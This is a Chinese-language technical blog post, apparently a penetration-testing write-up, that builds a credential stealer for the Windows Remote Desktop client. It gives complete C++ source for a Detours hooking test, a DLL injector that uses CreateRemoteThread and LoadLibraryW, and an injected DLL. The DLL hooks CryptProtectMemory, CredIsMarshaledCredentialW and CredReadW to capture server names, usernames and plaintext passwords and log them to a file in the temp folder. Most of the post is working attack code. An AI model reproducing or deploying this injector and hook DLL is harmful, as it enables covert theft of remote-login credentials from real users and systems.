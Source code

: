 ## 实验 ##
简单测试(HOOK了MessageBox)
```cpp
#include <Windows.h>
#include <detours.h> //加载detours库
#pragma comment (lib,"detours.lib")
static int(WINAPI *TrueMessageBox)(HWND, LPCTSTR, LPCTSTR, UINT) = MessageBox; //根据函数原型来定义要被HOOk的函数（MSDN函数怎么写的你就怎么定义）
int WINAPI OurMessageBox(HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType) { //成功HOOK后的处理函数
	return TrueMessageBox(NULL, L"Hooked", lpCaption, 0); //HOOK成功弹个框
}
int main()
{
	DetourTransactionBegin(); //HOOK初始化
	DetourUpdateThread(GetCurrentThread()); //刷新本身线程
	DetourAttach(&(PVOID&)TrueMessageBox, OurMessageBox);  //加载要HOOK的函数
	DetourTransactionCommit(); //开始HOOK
	MessageBox(NULL, L"Hello", L"Hello", 0);
	DetourTransactionBegin(); //HOOK初始化
	DetourUpdateThread(GetCurrentThread()); //刷新本身线程
	DetourDetach(&(PVOID&)TrueMessageBox, OurMessageBox);  //取消HOOK
	DetourTransactionCommit(); //取消HOOK开始
}
```
如果HOOK成功的话，将如下图
![006LG7Nygy1g9xjwlnx5uj311r0hsjsp.jpg](http://ww1.sinaimg.cn/large/006LG7Nygy1g9xjwlnx5uj311r0hsjsp.jpg)

之后编译原作者写好的,之后注入到mstsc
常规的DLL注入
```cpp
#include "stdafx.h"
#include <Windows.h>

int main(int argc, char *argv[]) {
	HANDLE processHandle;
	PVOID remoteBuffer;
	wchar_t dllPath[] = TEXT("H:\\C master\\dll\\ConsoleApplication1\\x64\\Release\\ConsoleApplication1.dll");

	printf("Injecting DLL to PID: %i\n", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM_COMMIT, PAGE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
	PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
	CloseHandle(processHandle);

	return 0;
}
```

如果成功注入的话，会出现如下图
![006LG7Nygy1g9xk11mc18j30pp0nl0x4.jpg](http://ww1.sinaimg.cn/large/006LG7Nygy1g9xk11mc18j30pp0nl0x4.jpg)

然后在temp目录下会有个data.bin，由于我是win7的原因API可能有些不同。记录不到IP
![006LG7Nygy1g9xk25waluj30ei06ymx5.jpg](http://ww1.sinaimg.cn/large/006LG7Nygy1g9xk25waluj30ei06ymx5.jpg)

之后看到了三好学生的博客里的操作，使用API Monitor附加了mstsc.exe找到了记录用户名的API 函数
![006LG7Nygy1g9xk5oly7qj31hc0qc10l.jpg](http://ww1.sinaimg.cn/large/006LG7Nygy1g9xk5oly7qj31hc0qc10l.jpg)

在根据MSDN文档里的CredReadW function定义方法，照搬定义即可
[CredReadW function (wincred.h) - Win32 apps \| Microsoft Docs](https://docs.microsoft.com/zh-cn/windows/win32/api/wincred/nf-wincred-credreadw?view=vs-2017)

修改之后
```cpp
// ConsoleApplication1.cpp : 定义 DLL 应用程序的导出函数。
//

#include "stdafx.h"
#include <Windows.h>
#include "detours.h"
#include <dpapi.h>
#include <wincred.h>
#include <strsafe.h>
#include <subauth.h>
#define SECURITY_WIN32 
#include <sspi.h>
#pragma comment(lib,"detours.lib")
#pragma comment(lib, "crypt32.lib")
#pragma comment(lib, "Advapi32.lib")
#pragma comment(lib, "Secur32.lib")


LPCWSTR lpTempPassword = NULL;
LPCWSTR lpUsername = NULL;
LPCWSTR lpServer = NULL;

VOID WriteCredentials() {
	const DWORD cbBuffer = 1024;
	TCHAR TempFolder[MAX_PATH];
	GetEnvironmentVariable(L"TEMP", TempFolder, MAX_PATH);
	TCHAR Path[MAX_PATH];
	StringCbPrintf(Path, MAX_PATH, L"%s\\data.bin", TempFolder);
	HANDLE hFile = CreateFile(Path, FILE_APPEND_DATA, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	WCHAR  DataBuffer[cbBuffer];
	memset(DataBuffer, 0x00, cbBuffer);
	DWORD dwBytesWritten = 0;
	StringCbPrintf(DataBuffer, cbBuffer, L"Server: %s\nUsername: %s\nPassword: %s\n\n", lpServer, lpUsername, lpTempPassword);
	WriteFile(hFile, DataBuffer, wcslen(DataBuffer) * 2, &dwBytesWritten, NULL);
	CloseHandle(hFile);

}


static BOOL(WINAPI *OriginalCredReadW)(LPCWSTR TargetName, DWORD Type, DWORD Flags, PCREDENTIALW *Credential) = CredReadW;
BOOL HookedCredReadW(LPCWSTR TargetName, DWORD Type, DWORD Flags, PCREDENTIALW *Credential)
{
	lpServer = TargetName;
	return OriginalCredReadW(TargetName, Type, Flags, Credential);
}



static DPAPI_IMP BOOL(WINAPI * OriginalCryptProtectMemory)(LPVOID pDataIn, DWORD  cbDataIn, DWORD  dwFlags) = CryptProtectMemory;

BOOL _CryptProtectMemory(LPVOID pDataIn, DWORD  cbDataIn, DWORD  dwFlags) {

	DWORD cbPass = 0;
	LPVOID lpPassword;
	int *ptr = (int *)pDataIn;
	LPVOID lpPasswordAddress = ptr + 0x1;
	memcpy_s(&cbPass, 4, pDataIn, 4);


	//When the password is empty it only counts the NULL byte.
	if (cbPass > 0x2) {
		SIZE_T written = 0;
		lpPassword = VirtualAlloc(NULL, 1024, MEM_COMMIT, PAGE_READWRITE);
		WriteProcessMemory(GetCurrentProcess(), lpPassword, lpPasswordAddress, cbPass, &written);
		lpTempPassword = (LPCWSTR)lpPassword;

	}

	return OriginalCryptProtectMemory(pDataIn, cbDataIn, dwFlags);
}


static BOOL(WINAPI * OriginalCredIsMarshaledCredentialW)(LPCWSTR MarshaledCredential) = CredIsMarshaledCredentialW;

BOOL _CredIsMarshaledCredentialW(LPCWSTR MarshaledCredential) {

	lpUsername = MarshaledCredential;
	if (wcslen(lpUsername) > 0) {

		WriteCredentials();
	}
	return OriginalCredIsMarshaledCredentialW(MarshaledCredential);
}


BOOL APIENTRY DllMain(HMODULE hModule, DWORD  dwReason, LPVOID lpReserved)
{
	if (DetourIsHelperProcess()) {
		return TRUE;
	}

	if (dwReason == DLL_PROCESS_ATTACH) {
		DetourRestoreAfterWith();
		DetourTransactionBegin();
		DetourUpdateThread(GetCurrentThread());
		DetourAttach(&(PVOID&)OriginalCryptProtectMemory, _CryptProtectMemory);
		DetourAttach(&(PVOID&)OriginalCredIsMarshaledCredentialW, _CredIsMarshaledCredentialW);
		DetourAttach(&(PVOID&)OriginalCredReadW, HookedCredReadW);

		DetourTransactionCommit();
	}
	else if (dwReason == DLL_PROCESS_DETACH) {
		DetourTransactionBegin();
		DetourUpdateThread(GetCurrentThread());
		DetourDetach(&(PVOID&)OriginalCryptProtectMemory, _CryptProtectMemory);
		DetourDetach(&(PVOID&)OriginalCredIsMarshaledCredentialW, _CredIsMarshaledCredentialW);
		DetourDetach(&(PVOID&)OriginalCredReadW, HookedCredReadW);
		DetourTransactionCommit();

	}
	return TRUE;
}
```
测试可以正常记录IP
![006LG7Nygy1g9xk925v8pj30dd067q2u.jpg](http://ww1.sinaimg.cn/large/006LG7Nygy1g9xk925v8pj30dd067q2u.jpg)

这里一开始自己定义CredReadW的时候踩了个坑...return没有返回定义的函数。返回了API原型的函数，结果记录的IP一直是乱码。坑了好久，直到搜到了三好学生的博客- -
（一开始写的）
![006LG7Nygy1g9xkcuvq7vj30la0daq3e.jpg](http://ww1.sinaimg.cn/large/006LG7Nygy1g9xkcuvq7vj30la0daq3e.jpg)

一定要返回定义的函数，不然问题多多....
这里应该返回CreadReadWs才对

## 参考链接 ##
[渗透技巧——从远程桌面客户端提取明文凭据 - 嘶吼 RoarTalk – 回归最本质的信息安全,互联网安全新媒体,4hou.com](https://www.4hou.com/technology/21645.html)
[CredReadW function (wincred.h) - Win32 apps \| Microsoft Docs](https://docs.microsoft.com/zh-cn/windows/win32/api/wincred/nf-wincred-credreadw?view=vs-2017)